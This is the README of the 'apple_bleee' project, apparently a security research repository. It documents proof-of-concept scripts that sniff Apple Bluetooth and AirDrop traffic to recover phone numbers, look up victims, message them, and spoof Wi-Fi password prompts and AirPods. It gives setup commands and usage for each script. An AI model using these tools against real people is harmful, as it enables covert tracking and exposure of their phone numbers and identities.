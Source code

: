 # Apple bleee

<p align="center">
  <img src="https://github.com/hexway/apple_bleee/blob/master/img/logo.jpg"  height="350">
</p>

## Disclaimer
These scripts are experimental PoCs that show what an attacker get from Apple devices if they sniff Bluetooth traffic.

***This project is created only for educational purposes and cannot be used for law violation or personal gain.<br/>The author of this project is not responsible for any possible harm caused by the materials of this project***


## Requirements
To use these scripts you will need a Bluetooth adapter for sending `BLE` messages and WiFi card supporting active monitor mode with frame injection for communication using `AWDL` (AirDrop). We recommend the Atheros AR9280 chip (IEEE 802.11n) we used to develop and test this code.
We have tested these PoCs on **Kali Linux**


## Installation

```
# clone main repo
git clone https://github.com/hexway/apple_bleee.git && cd ./apple_bleee
# install dependencies
sudo apt update && sudo apt install -y bluez libpcap-dev libev-dev libnl-3-dev libnl-genl-3-dev libnl-route-3-dev cmake libbluetooth-dev
sudo pip3 install -r requirements.txt
# clone and install owl for AWDL interface
git clone https://github.com/seemoo-lab/owl.git && cd ./owl && git submodule update --init && mkdir build && cd build && cmake .. && make && sudo make install && cd ../..
```

## How to use

Before using the tool, check that your Bluetooth adapter is connected

```
hcitool dev
Devices:
    hci0    00:1A:7D:DA:71:13
```


### Script: [ble_read_state.py](https://github.com/hexway/apple_bleee/blob/master/ble_read_state.py)

This script sniffs `BLE` traffic and displays status messages from Apple devices.
Moreover, the tool detects requests for password sharing from Apple devices. In these packets, we can get first 3 bytes of sha256(phone_number) and could try to guess the original phone number using prepared tables with phone hash values.

![dev_status](img/dev_status.png)

```bash
python3 ble_read_state.py -h
usage: ble_read_state.py [-h] [-c] [-n] [-r] [-l] [-s] [-m] [-a] [-v] [-t TTL] [-f MAC] [-i iface]

Apple bleee. Apple device sniffer
---chipik

optional arguments:
  -h, --help             show this help message and exit
  -c, --check_hash       Get phone number by hash
  -n, --check_phone      Get user info by phone number (TrueCaller/etc)
  -r, --check_region     Get phone number region info
  -l, --check_hlr        Get phone number info by HLR request (hlrlookup.com)
  -s, --ssid             Get SSID from requests
  -m, --message          Send iMessage to the victim
  -a, --airdrop          Get info from AWDL
  -v, --verbose          Add more verbosity, including -vv and -vvv
  -i, --interface <IF>   Wifi interface to use
  -f, --follow <MAC>     Follow one or more MAC addresses (can be used multiple times)
  -t, --ttl <TTL>        ttl
```

For monitoring you can just run the script without any parameters

```bash
sudo python3 ble_read_state.py
```

press `Ctrl+q` to exit

If you want to get phone numbers from a WiFi password request, you have to prepare the hashtable (please find scripts below), setup a web server and specify `base_url` inside this script and run it with  `-c` parameter

```bash
sudo python3 ble_read_state.py -с
```

**Video demo (click):**

[![airdrop_demo](img/status_gif.gif)](https://www.youtube.com/watch?v=Bi602yAIBAw)

### Script: [airdrop_leak.py](https://github.com/hexway/apple_bleee/blob/master/airdrop_leak.py)

This script allows to get mobile phone number of any user who will try to send file via AirDrop

For this script, we'll need `AWDL` interface:
```bash
# set wifi card to monitor mode and run owl
sudo iwconfig wlan0 mode monitor && sudo ip link set wlan0 up && sudo owl -i wlan0 -N &
```

Now, you can run the script

```bash
python3 airdrop_leak.py -h
usage: airdrop_leak.py [-h] [-c] [-n] [-m]

Apple AirDrop phone number catcher
---chipik

optional arguments:
  -h, --help         show this help message and exit
  -c, --check_hash   Get phone number by hash
  -n, --check_phone  Get user info by phone number (TrueCaller/etc)
  -m, --message      Send iMessage to the victim
```

With no params, the script just displays phone hash and ipv6 address of the sender

```bash
sudo python3 airdrop_leak.py
```

**Video demo (click):**

[![airdrop_demo](img/airdrop_gif.gif)](https://www.youtube.com/watch?v=mREIeH_s3z8)

### Script: [adv_wifi.py](https://github.com/hexway/apple_bleee/blob/master/adv_wifi.py)

This script sends `BLE` messages with WiFi password sharing request. This PoC shows that an attacker can trigger a pop up message on the target device if he/she knows any phone/email that exists on the victim's device

```bash
python3 adv_wifi.py -h
usage: adv_wifi.py [-h] [-p PHONE] [-e EMAIL] [-a APPLEID] -s SSID
                   [-i INTERVAL]

WiFi password sharing spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -p PHONE, --phone PHONE
                        Phone number (example: 39217XXX514)
  -e EMAIL, --email EMAIL
                        Email address (example: test@test.com)
  -a APPLEID, --appleid APPLEID
                        Email address (example: test@icloud.com)
  -s SSID, --ssid SSID  WiFi SSID (example: test)
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
```

For a WiFi password request, we'll need to specify any contact (email/phone) that exists in a victim's contacts and the SSID of a WiFi network the victim knows

```bash
sudo python3 adv_wifi.py -e pr@hexway.io -s hexway
```

**Video demo (click):**

[![share_wifi_demo](img/share_wifi_pwd2_gif.gif)](https://www.youtube.com/watch?v=QkGCP2mfbJ8)

### Script: [adv_airpods.py](https://github.com/hexway/apple_bleee/blob/master/adv_airpods.py)

This script mimics AirPods by sending `BLE` messages

```bash
python3 adv_airpods.py -h
usage: adv_airpods.py [-h] [-i INTERVAL] [-r]

AirPods advertise spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
  -r, --random          Send random charge values
```

Let's send `BLE` messages with random charge values for headphones

```bash
sudo python3 adv_airpods.py -r
```

**Video demo (click):**

[![airdrop_demo](img/airpods_gif.gif)](https://www.youtube.com/watch?v=HoSuLUtrkXo)

### Script: [hash2phone](https://github.com/hexway/apple_bleee/blob/master/hash2phone/)

You can use this script to create pre-calculated table with mobile phone numbers hashes<br>
Please find details [here](/hash2phone)

## Contacts

[https://hexway.io](https://hexway.io)<br>
[@_hexway](https://twitter.com/_hexway)
